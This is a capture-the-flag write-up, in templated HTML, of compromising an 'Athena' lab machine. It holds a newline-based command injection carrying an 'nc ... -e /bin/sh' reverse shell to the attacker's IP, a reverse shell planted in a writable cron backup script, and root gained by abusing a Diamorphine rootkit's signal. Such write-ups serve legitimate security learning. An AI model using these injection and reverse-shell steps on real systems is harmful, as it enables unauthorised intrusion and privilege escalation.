 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an nmap scan to identify open ports.")}}

{{console("nmap -T5 -p- -sV -sC 10.10.98.214", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 15:12 CET
Warning: 10.10.98.214 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.98.214
Host is up (0.072s latency).
Not shown: 61675 closed tcp ports (conn-refused), 3856 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-05T14:20:38
|_  start_date: N/A
|_clock-skew: -1s
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 498.04 seconds
")}}

{{text("We find 4 open ports:")}}

{{list(['22 (SSH)', '80 (HTTP)', '139 (smbd)', '445 (smbd)'])}}

{{text("I firstly tried connecting to the SMB service. I was able to find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>public</code> share and then I accessed it. Luckly anonymous login worked. There was a text file with a message for the administrator.")}}

{{console("cat msg_for_administrator.txt", "Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Then I visited the web page and accessed the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/myrouterpanel</code> directory.")}}

{{text("It contained a tool for pinging other devices.")}}

{{image("../../static/writeups/athena/images/000001.jpg")}}

{{text("When I entered <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>localhost</code>, the tool worked correctly and redirected me to a page with the results.")}}

{{text("I tried chaining commands but that didn't work and I got a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Attempted hacking!</code> error.")}}

{{text("What worked was adding a URL encoded newline character (\n) at the end of the address and adding our command after that.")}}

{{image("../../static/writeups/athena/images/000002.jpg")}}

{{text("Now we should try to get a reverse shell.")}}

{{text("We set up a listener and send a POST request using Burp with parameter <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ip=127.0.0.1%0Anc+10.9.6.6+1234+-e+/bin/sh&submit=</code>. We should get a connection.")}}

{{image("../../static/writeups/athena/images/000003.jpg")}}

{{header("Shell as athena", "shell-as-athena")}}

{{text("We can upgrade our shell now.")}}

{{image("../../static/writeups/athena/images/000005.jpg")}}

{{text("I ran <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pspy64</code> on the machine and found a script that runs in the background located at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/share/backup/backup.sh</code>.")}}

{{console("cat backup.sh", "#!/bin/bash

backup_dir_zip=~/backup

mkdir -p '$backup_dir_zip'

cp -r /home/athena/notes/* '$backup_dir_zip'

zip -r '$backup_dir_zip/notes_backup.zip' '$backup_dir_zip'

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo 'Backup completed...'")}}

{{text("It's a simple script that by copying some files creates a backup. We check that it's owned by user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>athena</code> and is writeable by our current user.")}}

{{text("We go to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and copy a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>nc mkfifo</code> reverse shell.")}}

{{text("We add it to the file.")}}

{{image("../../static/writeups/athena/images/000006.jpg")}}

{{text("We set up a listener and should get a reverse shell as <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>athena</code>.")}}

{{image("../../static/writeups/athena/images/000007.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("After upgrading our shell we check our sudo permissions.")}}

{{console("sudo -l", "Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
")}}

{{text("Since I couldn't read this file, I downloaded it onto my machine and used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ghidra</code> to reverse engineer it.")}}

{{text("The functions contained <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>diamorphine</code> so I searched the internet for that.")}}

{{text("I found this page.")}}

{{link("https://github.com/m0nad/Diamorphine", "./../static/writeups/images/github.jpg", "Diamorphine")}}

{{text("The description says that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Sending a signal 64(to any pid) makes the given user become root</code>.")}}

{{text("I tried sending signal 64 to a couple of processes but I couldn't become root. I analyzed the file further.")}}

{{text("I found this interesting piece of code.")}}

{{image("../../static/writeups/athena/images/000008.jpg")}}

{{text("<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>0x39</code> in decimal is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>57</code> so if we send signal 57 instead of 64, we should become root.")}}

{{text("We run the file as sudo and send the correct signal to any process. We should become root.")}}

{{image("../../static/writeups/athena/images/000009.jpg")}}

{{script()}}